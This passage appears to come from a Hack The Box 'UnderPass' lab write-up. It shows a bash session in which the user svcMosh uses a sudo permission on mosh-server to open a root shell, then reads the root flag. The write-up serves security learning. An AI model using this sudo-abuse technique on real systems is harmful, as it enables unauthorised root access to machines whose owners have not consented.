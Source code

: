 ![image.png](HTB%20UnderPass%20Writeup%20166b43b4a03c80cc8cc8f47846c9ed7a/image%205.png)

- Below is a snippet from the article screenshot, outlining the steps for how to connect..

![image.png](HTB%20UnderPass%20Writeup%20166b43b4a03c80cc8cc8f47846c9ed7a/image%206.png)

- After escalating my privileges to root, I was able to capture the `root.txt` flag.

```bash
svcMosh@underpass:/tmp$ sudo /usr/bin/mosh-server

MOSH CONNECT 60001 F9X8nyL/nbY5jxd8KUkI5g

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2313]
svcMosh@underpass:/tmp$ MOSH_KEY=F9X8nyL/nbY5jxd8KUkI5g mosh-client 127.0.0.1 60001
[mosh is exiting.]

root@underpass:~# id
uid=0(root) gid=0(root) groups=0(root)
root@underpass:~# uname -a
Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
root@underpass:~# cat root.txt | wc -c
33
```
